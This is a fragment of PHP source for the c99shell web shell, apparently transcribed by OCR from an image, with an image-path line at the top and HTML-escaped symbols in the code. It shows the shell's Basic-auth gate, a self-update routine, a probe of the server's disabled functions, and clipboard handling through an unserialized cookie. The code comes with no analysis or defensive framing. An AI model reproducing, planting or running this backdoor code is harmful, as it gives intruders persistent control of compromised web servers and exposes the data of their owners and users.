 if (!empty($login)) 
{ 
 if (empty($md5_pass)) {$md5_pass = md5($pass);} 
 if (($_SERVER["PHP_AUTH_USER"] != $login) or (md5($_SERVER["PHP_AUTH_PW"]) != $md5_pass)) 
 { 
  if (empty($login_txt)) {$login_txt = strip_tags(ereg_replace("&nbsp;|&lt;br&gt;"," ",$donated_html));} 
  header("WWW-Authenticate: Basic realm=\"c99shell ".$shver.": ".$login_txt."\""); 
  header("HTTP/1.0 401 Unauthorized"); 
  exit($accessdeniedmess); 
 } 
} 
if ($act != "img") 
{ 
$lastdir = realpath("."); 
chdir($curdir); 
if ($selfwrite or $updatenow) {@ob_clean(); c99sh_getupdate($selfwrite,1); exit;} 
$sess_data = unserialize($_COOKIE["$sess_cookie"]); 
if (!is_array($sess_data)) {$sess_data = array();} 
if (!is_array($sess_data["copy"])) {$sess_data["copy"] = array();} 
if (!is_array($sess_data["cut"])) {$sess_data["cut"] = array();} 
$disablefunc = @ini_get("disable_functions"); 
if (!empty($disablefunc)) 
{ 
 $disablefunc = str_replace(" ","",$disablefunc); 
 $disablefunc = explode(",",$disablefunc); 
} 
if (!function_exists("c99_buff_prepare")) 
{ 
function c99_buff_prepare() 
{ 
 global $sess_data; 
 global $act; 
 foreach($sess_data["copy"] as $k=&gt;$v) {$sess_data["copy"][$k] = str_replace("\\",DIRECTORY_SEPARATOR,realpath($v));} 
 foreach($sess_data["cut"] as $k=&gt;$v) {$sess_data["cut"][$k] = str_replace("\\",DIRECTORY_SEPARATOR,realpath($v));} 
 $sess_data["copy"] = array_unique($sess_data["copy"]); 
 $sess_data["cut"] = array_unique($sess_data["cut"]); 
 sort($sess_data["copy"]); 
 sort($sess_data["cut"]); 
 if ($act != "copy") {foreach($sess_data["cut"] as $k=&gt;$v) {if ($sess_data["copy"][$k] == $v) {unset($sess_data["copy"][$k]); }}} 
 else {foreach($sess_data["copy"] as $k=&gt;$v) {if ($sess_data["cut"][$k] == $v) {unset($sess_data["cut"][$k]);}}} 
} 
} 
c99_buff_prepare(); 
if (!function_exists("c99_sess_put")) 
{ 
function c99_sess_put($data) 
{ 
 global $sess_cookie; 
 global $sess_data; 
 c99_buff_prepare(); 
 $sess_data = $data; 
 $data = serialize($data); 
 setcookie($sess_cookie,$data); 
} 
} 
foreach (array("sort","sql_sort") as $v) 
{ 
 if (!empty($_GET[$v])) {$$v = $_GET[$v];} 
 if (!empty($_POST[$v])) {$$v = $_POST[$v];} 